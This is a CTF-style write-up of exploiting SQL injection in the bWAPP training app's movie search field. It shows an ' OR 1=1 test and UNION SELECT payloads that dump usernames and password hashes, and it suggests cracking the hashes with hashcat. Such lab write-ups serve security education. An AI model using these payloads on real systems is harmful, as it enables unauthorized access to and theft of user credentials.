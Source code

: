 # SQL Injection (GET/Search)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](WRITEUP.en.md)
- 🇷🇺 [Русский](WRITEUP.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***SQL Injection vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low

# Target
---

![[SqliGetSearchTarget.png]]

# Functionality
---

Passing `test` to determine how the application reacts to entries that don't exist in the database:

![[SqliGetSearchTest.png]]

Passing `Iron Man` to see the application's reaction to an entry that is (likely) in the database:

![[SqliGetSearchFunction.png]]

### Probable SQL query:

```SQL
SELECT * FROM movies WHERE title="$variable"
```

# Exploitation
---

Passing the `' OR 1=1 -- ` query to test for SQL injection:

![[SqliGetSearchSuccess.png]]

The application returns all entries from the database, vulnerability confirmed.

Now passing a `UNION`-based payload to attempt retrieving data from the (likely present) `users` table:

![[SqlGetSearchUnion.png]]

This proves that the `users` table exists. The statements return a different number of columns.

Passing the `UNION` payload tampered with `NULL` values to retrieve the `users` table entries, incrementing the number of `NULL` values until the query results in success:

![[SqliGetSearchUnionPwd.png]]

Hashed passwords that can later be cracked using tools like `hashcat`.

![[SqliGetSearchUnionUsers.png]]

### Final payloads

Retrieving hashed password entries:

```SQL
Iron Man' UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users -- 
```

Retrieving login entries:

```SQL
Iron Man' UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users -- 
```